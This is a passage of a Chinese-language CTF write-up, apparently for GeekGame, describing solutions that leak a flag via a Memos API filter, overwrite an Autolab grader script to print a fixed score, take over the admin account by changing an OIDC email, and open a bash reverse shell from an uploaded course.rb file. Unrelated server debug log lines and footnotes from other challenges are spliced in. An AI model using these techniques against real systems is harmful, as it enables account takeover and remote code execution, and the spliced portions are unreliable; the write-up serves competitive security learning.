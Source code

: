 于是你注册个账号，生成一个 Access Token 然后像这样发个请求就能拿到 flag：

```bash
curl "https://prob09-[container id].geekgame.pku.edu.cn/api/v1/memos?filter=visibilities+%3D%3D+%5B%22PRIVATE%22%5D" -H "Accept: application/json" -H "Authorization: Bearer [some token]"

# {"memos":[{"name":"memos/2","uid":"KXyrPwJPRc4CT3q39hMsqB","rowStatus":"ACTIVE","creator":"users/1","createTime":"2024-10-04T04:59:42Z","updateTime":"2024-10-04T04:59:42Z","displayTime":"2024-10-04T04:59:42Z","content":"Congratulations! Your flag is `flag{h3Ll0-Ics-4gAin-E4sY-Guake}`","nodes":[{"type":"PARAGRAPH","paragraphNode":{"children":[{"type":"TEXT","textNode":{"content":"Congratulations! Your flag is "}},{"type":"CODE","codeNode":{"content":"flag{h3Ll0-Ics-4gAin-E4sY-Guake}"}}]}}],"visibility":"PRIVATE","tags":[],"pinned":false,"resources":[],"relations":[],"reactions":[],"property":{"tags":[],"hasLink":false,"hasTaskList":false,"hasCode":true,"hasIncompleteTasks":false},"snippet":"Congratulations! Your flag is flag{h3Ll0-Ics-4gAin-E4sY-Guake}\n"}],"nextPageToken":""}
```

update: 现在发现你好像根本不用塞 payload，登录之后直接请求这个接口就能拿到 flag，属于是漏完了...

### ICS 笑传之抄抄榜

#### 哈基狮传奇之我是带佬

题目设置的评分其实直接是跑 `driver.pl`，然后你上传的内容可以覆盖这个文件，所以...

```bash
#!/bin/bash

echo '{ "scores": {"Correctness":80} }'
```

#### 哈基狮传奇之我是牢师

本题所给的 `OpenID Connect` 的 PR 看起来并无问题，但和其他常见的第三方登录一样，会通过传入的邮箱查找绑定现有账号，而恰好本题所给的 [认证服务 UAAA](https://prob18id.geekgame.pku.edu.cn/) 允许你随便更改邮箱，这样你就可以成为牢师了。

![UAAA](https://i.dawnlab.me/1f1ed769417507c15ddd7219f431824f.png)

但牢师的邮箱是什么？直接访问 `/users/1` 是没有权限的，但是在课程设置页面，即 `/courses/Geek-ICS/course_user_data/1` 可以看到课程第一个用户的信息[^autolab-user]：

![autolab user info](https://i.dawnlab.me/f4fabdc4496198219f49a3befa9e003e.png)

邮箱是 `ics@guake.la`[^autolab-email]，直接在 UAAA 中修改后就能以管理员登录了。

#### 哈基狮传奇之我是嗨客

`Manage Course` 里有一个地方可以上传 `course.rb`，而这个其实是直接被执行的。测了下环境有网，所以直接弹个 shell 看看：

![autolab manage course](https://i.dawnlab.me/e31ec7a9f582b71767e8fa7a69be270a.png)

```ruby
#
# course.rb - Autolab Course Configuration File
#
# This file is cached on the Autolab server.
#
# ...

system('bash -c "bash -i >& /dev/tcp/[ip]/[port] 0>&1"')
```


[2024:09:30:17:14:26]: Debug: handle_read_encrypted_header(): Handle read of size: 24 bytes
[2024:09:30:17:14:26]: Debug: handle_read_encrypted(): Handle read of size: 206 bytes
[2024:09:30:17:14:26]: Debug: type [REQUEST]
[2024:09:30:17:14:26]: Debug: sequence number [4]
[2024:09:30:17:14:26]: Debug: protocol :: RTSP/1.0
[2024:09:30:17:14:26]: Debug: payload :: 
[2024:09:30:17:14:26]: Debug: command :: SETUP
[2024:09:30:17:14:26]: Debug: target :: streamid=video/0/0
[2024:09:30:17:14:26]: Debug: CSeq :: 4
[2024:09:30:17:14:26]: Debug: X-GS-ClientVersion :: 14
[2024:09:30:17:14:26]: Debug: Host :: 0.0.0.0
[2024:09:30:17:14:26]: Debug: Session :: DEADBEEFCAFE
[2024:09:30:17:14:26]: Debug: Transport :: unicast;X-GS-ClientPort=50000-50001
[2024:09:30:17:14:26]: Debug: If-Modified-Since :: Thu, 01 Jan 1970 00:00:00 GMT
[2024:09:30:17:14:26]: Debug: ---Begin MessageBuffer---
[2024:09:30:17:14:26]: Debug: ---Begin Response---
[^mario-initial-mem]: 实际为 `$016B-$01A6`，`$016B-$0180` 是一段读手柄输入的 subroutine（因为转成 FCEUX 的录像后有几帧的偏移，种种原因导致并不能直接工作），`$0181-$01A6` 就是原文中所述按手柄输入写入 / 跳转至任意内存的逻辑，[这是一段 Cluade 的分析](https://claude.site/artifacts/11753798-1662-4def-9556-734a0f4d48d3)。
[^mario-jump-pc]: 实际为 `$1181`，但 [`$1000–$17FF` 是 `$0000–$07FF	` 的 Mirror](https://www.nesdev.org/wiki/CPU_memory_map)。
[^nes-vblank]: 在 NES 中，`VBlank` 是当前帧的最后一行已经渲染完毕后一小段 PPU 的空闲时间，正好可以在这里被用来对齐输入到帧。这段时间只有 2,387 CPU cycles，但对我们的简单代码来说足够了。
[^reset-apu-ppu]: 即击败库巴后的第一段输入，写入到 `$0300` 后的部分，这里有 [Claude 给出的注释](https://claude.site/artifacts/27cd39b9-02df-48cd-b733-bed11c8d3376)。
[^nametable-addr]: `$20A4` 是我调了半天终于渲染出东西时随便选的地址，并不需要按这个来（
[^not-difficult]: 其实我是先猜 `_` 然后找对应的 Tile ID 再比较的，也能工作不是吗（
[^autolab-user]: 这页面还有 `EDIT INFORMATION` 的按钮，感觉是鉴权给忘了？
[^autolab-email]: 感觉这个造的不好，因为 Autolab 的开发者也是这个邮箱，所以你其实在其他页面也能看到。
[^debugger-check-with-width]: 但是如果你开了侧边栏（比如 Arc 的那个），也有大概率会被干掉，因为他检查的最大值是 `160px`。
